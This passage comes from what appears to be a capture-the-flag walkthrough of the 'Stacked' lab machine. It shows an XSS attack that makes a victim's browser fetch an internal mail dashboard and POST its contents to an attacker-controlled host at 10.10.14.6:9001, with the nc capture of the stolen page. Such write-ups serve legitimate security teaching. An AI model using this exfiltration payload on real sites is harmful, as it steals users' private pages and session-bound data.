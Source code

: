 
I’ll need a different port for the exfil as the Python HTTP server doesn’t
handle POST requests. I’ll start `nc` listening on 9001. On sending the
request again, after a minute, there’s a request for the JS:

    
    
    10.10.11.112 - - [24/Aug/2021 11:51:03] "GET /xss-2.js HTTP/1.1" 200 -
    

Then a POST to `nc`:

    
    
    oxdf@hacky$ nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 45486 
    POST / HTTP/1.1                                            
    Host: 10.10.14.6:9001
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://mail.stacked.htb/read-mail.php?id=2        
    Content-Length: 7954                                       
    Content-Type: text/plain;charset=UTF-8
    Origin: http://mail.stacked.htb                            
    Connection: keep-alive
    
    <html lang="en"><head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>AdminLTE 3 | Read Mail</title>
    ...[snip]...
    

I can save that to a file and open it in Firefox. The CSS / images don’t show
(because they will be failed requests to mail.stacked.htb), but I can still
see the general page and links:

![image-20210824115718119](https://0xdfimages.gitlab.io/img/image-20210824115718119.png)

The “Inbox” link points to `/dashboard.php`. I’ll actually make this page
available from my VM and play with it in Beyond Root.

### View Mailbox

To get another page as this user and then return it, I’ll need to make two
HTTP requests with JavaScript. The first will get the page I want, and the
second will return the source just like above. The first request will get
`/dashboard.php`. It will also have a `onreadystatechange` function that waits
for the request to finish (`readyState == 4`), and then starts a new request
to send the results back to me:

    
    
    var dashboardreq = new XMLHttpRequest();    
    dashboardreq.onreadystatechange = function() {              
      if (dashboardreq.readyState == 4) {                       
        var exfilreq = new XMLHttpRequest();                    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);                                                      
        exfilreq.send(dashboardreq.response);                 
      }     
    };    
    dashboardreq.open('GET', '/dashboard.php', false);    
    dashboardreq.send();  
    